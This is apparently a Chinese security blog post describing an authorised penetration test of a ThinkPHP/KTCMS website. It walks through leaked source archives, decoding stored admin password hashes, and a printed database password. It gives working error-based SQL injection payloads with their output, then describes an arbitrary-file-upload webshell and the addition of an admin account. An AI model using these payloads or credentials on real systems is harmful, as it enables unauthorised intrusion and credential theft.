 ```yaml
---
layout: post
title: "记一次常规渗透测试笔记（已授权）"
subtitle: "记一次常规渗透测试笔记（已授权）"
date: 2019-08-20
author: ppbibo
category: security
finished: true
---
```

[TOC]

由黑盒转白盒的一次渗透测试（已授权）



PS：拿到了三个站点,发现都是一样的程序 **RT：**

domain：【`www.abc.com`，`www.test.com`，`www.aaa.com`】



## 0x1 信息收集

```text
1. 框架： ThinkPHP V5.0.24   
# 测试了以前爆TP的命令执行漏洞失败

2. CMS：KTCMS     
# 搜索没发现与 KTCMS 相关的漏洞

3. 后台路径：/admin/login/        
# 手工测试常见弱口令无果，已知用户 admin 
```

![KTCMS1](/static/img/KTCMS1.png)

跑了一下路径发现源码泄露，路径如下：

```html
www.abc.com/abc.com.tar.gz
www.test.com/test1.tar.gz
www.aaa.com/1aaa2019.tar.gz
```

下载源码找到数据库备份文件 `/public/data/kt_cms.sql`  **RT：**

![](/static/img/KTCMS2.png)

第一次见这种加密比较懵，问了群里表哥说解密方法每两个数字前面加个 % 然后URL解码，得到明文。

```bash
%61%64%6D%69%6E  # URL解码得出 admin

%32%31%32%33%32%66%32%39%37%61%35%37%61%35%61%37%34%33%38%39%34%61%30%65%34%61%38%30%31%66%63%33	# URL解码得出MD5值：21232f297a57a5a743894a0e4a801fc3 经过CMD5解密为 admin
```

```bash
%31		# URL解码得出 1

%63%34%63%61%34%32%33%38%61%30%62%39%32%33%38%32%30%64%63%63%35%30%39%61%36%66%37%35%38%34%39%62	# URL解码得出MD5值：c4ca4238a0b923820dcc509a6f75849b 	经过CMD5解密为 1
```

得到用户账号密码：

```
account：admin 	|  pwd：admin
account：1 	|  pwd： 1
```

数据库配置文件 `config.php` ：

```php
// 数据库名
'database'        => '58_1',
// 用户名
'username'        => '58_1',
// 密码
'password'        => '4EHZAsJy7DiZFnsE',
```



## 0x2 SQL注入发现

进行后台登陆都显示密码错误（ 密码已更改 ），`BurpSuite` 爆破 `admin`用户无果，手工测试用户`1` 密码`2` 成功登陆。**RT:**

![KTCMS3](/static/img/KTCMS3.png)

权限就一个搜索框栏目的功能，手工测试发现存在注入  **RT：**

![KTCMS5](/static/img/KTCMS5.png)

页面中给出了 数据库的账号密码及SQL查询报错的详细信息,我们直接查询 `admin` 的用户密码，前面源码泄露数据中有他的`数据库结构` 信息。

直接查询`admin` 用户的密码：

```sql
-a') and (select 1 from (select count(*),concat(floor(rand(0)*2),(select pwd from kt_sys_admin limit 1))a from information_schema.tables group by a)b)#
```

返回：

```text
Duplicate entry '1ba32ca749f243590df6b520ddcc1a0ed' for key 'group_key'
```

![KTCMS4](/static/img/KTCMS4.png)

查询第二条密码：

```sql
-a') and (select 1 from (select count(*),concat(floor(rand(0)*2),(select pwd from kt_sys_admin limit 1,1))a from information_schema.tables group by a)b)#
```

返回：

```bash
Duplicate entry '1c81e728d9d4c2f636f067f89cc14862c' for key 'group_key'
```

![KTCMS6](/static/img/KTCMS6.png)



## 0x3 未授权访问&越权

![KTCMS7](/static/img/KTCMS7.png)

在 html 注释中发现多处未授权访问 **RT：**

![KTCMS8](/static/img/KTCMS8.png)



根据之前的源码发现多处未授权访问 但是并没有相应的权限进行相关操作。



## 0x4 上传GetShell

在源码中发现 `upload_file.html` 文件可以上传任意文件 **RT：**

![KTCMS9](/static/img/KTCMS9.png)

![KTCMS10](/static/img/KTCMS10.png)

成功拿到 `webshell` 登陆数据库，添加超级管理员账号 **RT：**

![KTCMS11](/static/img/KTCMS11.png)

![KTCMS12](/static/img/KTCMS12.png)



系统没法执行任何系统命令，观测为虚拟主机，另外两个站一样的思路。

------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***